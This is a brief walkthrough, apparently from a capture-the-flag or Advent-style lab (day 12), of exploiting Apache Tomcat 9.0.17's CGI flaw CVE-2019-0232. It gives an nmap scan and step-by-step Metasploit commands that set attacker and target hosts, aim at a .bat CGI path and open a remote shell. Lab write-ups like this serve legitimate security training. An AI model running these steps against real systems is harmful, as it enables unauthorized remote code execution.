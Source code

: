 ##Day-12

CGI

    sudo nmap -sS -Pn <ip_target>

![](../img/2020-12-21_15-15-33.png)

[Apache Tomcat 9.0.17](https://www.exploit-db.com/exploits/47073)


    msfconsole

    search 2019-0232
    
    use 0  <-- kann variieren
    
    options
    
    set lhost <ip_host>
    
    set rhost <ip_target>
    
    set port 8080
    
    set targeturi /cgi-bin/elfwhacker.bat
    
    run

    <ENTER>
    
    shell
